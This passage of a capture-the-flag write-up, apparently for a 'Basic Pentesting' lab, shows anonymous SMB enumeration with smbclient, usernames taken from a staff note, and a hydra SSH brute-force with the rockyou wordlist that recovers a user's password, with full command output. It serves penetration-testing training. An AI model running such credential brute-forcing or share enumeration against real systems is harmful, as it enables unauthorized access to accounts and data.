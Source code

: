 ### So there is a text file "staff.txt" so download it on our system
```get command use to download file```
```bash
┌──(death㉿esther)-[~/Lab-CTF/Basic-pentesting]
└─$ smbclient //10.10.50.222/Anonymous
Password for [WORKGROUP\death]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 19 23:01:20 2018
  ..                                  D        0  Thu Apr 19 22:43:06 2018
  staff.txt                           N      173  Thu Apr 19 22:59:55 2018

		14318640 blocks of size 1024. 11087940 blocks available
smb: \> get staff.txt
getting file \staff.txt of size 173 as staff.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \> 
```
## Let read the txt file we got from smb
```bash
┌──(death㉿esther)-[~/Lab-CTF/Basic-pentesting]
└─$ cat staff.txt      
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```
### So ```kay``` and ```Jan``` are two user and ```jan``` system password are week 
# 6. Let brute-force SSH service
### As we know ip and username let brute it.
``` sudo apt install hydra -y ```
```bash
┌──(death㉿esther)-[~/Lab-CTF/Basic-pentesting]
└─$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.50.222 -t 50
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-04-04 22:19:07
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 50 tasks per 1 server, overall 50 tasks, 14344399 login tries (l:1/p:14344399), ~286888 tries per task
[DATA] attacking ssh://10.10.50.222:22/
[STATUS] 390.00 tries/min, 390 tries in 00:01h, 14344028 to do in 612:60h, 31 active
[STATUS] 229.67 tries/min, 689 tries in 00:03h, 14343733 to do in 1040:55h, 27 active
[22][ssh] host: 10.10.50.222   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 23 final worker threads did not complete until end.
[ERROR] 23 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-04-04 22:22:17
```
#### I got password ```armando```, So there is no firewall to block me doing bruteforce im sending 50 threads at once to fast this process